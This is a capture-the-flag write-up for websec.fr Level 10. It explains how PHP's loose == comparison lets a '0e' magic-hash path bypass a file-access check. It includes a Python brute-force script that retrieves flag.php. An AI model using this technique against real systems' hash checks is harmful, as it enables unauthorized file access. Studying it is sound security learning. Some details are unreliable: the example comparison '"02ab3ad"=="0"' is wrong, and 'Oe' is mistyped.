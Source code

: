# Level10


## Analysis

- we can request any file from the server, as longs as we can provide the correct hash
- the hash is computed via `hash = md5(flag || file_path || flag)`
- this hash is compared with a user controlled input via the loose `==` equal  operator
  - if they are equal, the content of the requested file is printed
  - if they are not equal, the server does not grant permission to access the file

## Solution:
- classical type juggeling attacks do not work
  - the user-provided data is either interpreted as string or as array
  - since the result from the md5-hash function is also a string, there is no obvious type juggeling flaw
- however, the loose `==` operator has another interesting property:
  - if a string is provided with the prefix `0e`, e.g. `0e2ab3ad3`, it is a *zero-like* string
  - comparing a *zero-like* string with `"0"` will evaluate to true, i.e. `"02ab3ad"=="0"` is `true`
- this allows us to bruteforce a file-path which results in a hash staring with ``Oe``
  - we can simply add slashes to always request the file ``flag.php`` (because `.///////flag.php` is a valid file path)
  - the following python scripts performs this brute-force:

````python
import requests

url = "http://websec.fr/level10/index.php"

payload = "."

while True:
    payload += "/"
    print(len(payload), "\r")
    response = requests.get(url, params={"f": payload+"flag.php", "hash": "0"})
    if "Permission denied" not in response.text:
        print(response.text)
        break
````